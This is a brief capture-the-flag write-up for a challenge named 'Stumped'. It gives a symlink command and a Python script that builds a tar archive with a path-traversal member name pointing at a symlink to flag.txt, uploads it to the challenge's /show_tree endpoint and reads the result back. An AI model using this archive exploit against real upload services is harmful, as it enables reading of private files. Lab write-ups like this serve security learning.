

I think I didn't see a wu for Stumped so here it is:
# Stumped


```bash
ln -s ../flag.txt hacked
python exploit.py
```

exploit.py:

```python
import tarfile
import requests
import uuid

url = "https://thecybercoopctf-b850063e74d1-stumped-1.chals.io"
tempname = str(uuid.uuid4())

def change_name(tarinfo):
    tarinfo.name = "../../static/" + tempname
    return tarinfo

with tarfile.open("exploit.tar", "w:xz") as tar:
    tar.add("hacked", filter=change_name)

files = {'file': open('exploit.tar','rb')}
response = requests.post(f'{url}/show_tree', files=files)

print(f'File uploaded at {url}/static/{tempname}')

response = requests.get(f'{url}/static/{tempname}')
print(response.text)
```